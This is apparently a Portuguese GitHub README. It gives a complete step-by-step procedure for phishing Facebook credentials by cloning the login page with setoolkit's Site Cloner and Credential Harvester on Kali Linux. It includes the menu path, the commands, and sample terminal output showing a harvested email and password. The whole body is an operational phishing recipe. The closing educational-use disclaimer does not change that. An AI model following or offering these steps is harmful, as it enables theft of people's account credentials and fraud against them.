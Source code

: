 # Phishing para captura de senhas do Facebook
Este projeto demonstra como configurar um phishing para capturar credenciais do Facebook utilizando o Kali Linux e a ferramenta setoolkit. 

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

Siga os passos abaixo para configurar um phishing utilizando o setoolkit:

1. Obtenha acesso root:
   ```bash
   sudo su
   ```

2. Inicie o setoolkit:
   ```bash
   setoolkit
   ```

3. Escolha o tipo de ataque: **Social-Engineering Attacks**

4. Selecione o vetor de ataque: **Web Site Attack Vectors**

5. Escolha o método de ataque: **Credential Harvester Attack Method**

6. Selecione o método de ataque: **Site Cloner**

7. Obtenha o endereço IP da sua máquina:
   ```bash
   ifconfig
   ```
   Copie o endereço exibido, geralmente listado em `inet` sob a interface de rede (por exemplo, `eth0` ou `wlan0`).

8. Insira a URL para clonar:
   ```
   http://www.facebook.com
   ```

O setoolkit agora irá clonar o site do Facebook e configurá-lo para capturar credenciais.

## Resultados

- Após configurar o phishing, qualquer credencial inserida no site clonado será registrada e exibida na interface do terminal do setoolkit.

```plaintext
[*] Credential Harvester is running...
[*] Waiting for credentials to be entered...

[*] POSSIBLE USERNAME FIELD FOUND: skip_api_login=
PARAM: signed_next=
PARAM: trynum=1
PARAM: timezone=180
PARAM: lgndim=eyJ3IjoxOTIwLCJoIjoxMDgwLCJhdHdJdG1rYWMw
PARAM: lgnd=112556_dsDS
PARAM: tgnjs=1668021982
[*] POSSIBLE USERNAME FIELD FOUND: email=aninha88@gmail.com
[*] POSSIBLE PASSWORD FIELD FOUND: pass=seguranca2022!
PARAM: prefill_contact_point=
PARAM: prefill_source=
PARAM: prefill_type=1
PARAM: first_prefill_source=

```

## Observação Importante

- Este projeto é apenas para fins educacionais.
- Não use este material para fins ilegais.
- Sempre solicite autorização antes de realizar testes de segurança em sistemas ou redes que não sejam suas.

---

**Disclaimer:** O autor deste projeto não se responsabiliza por qualquer uso indevido ou atividade ilegal realizada com este material.
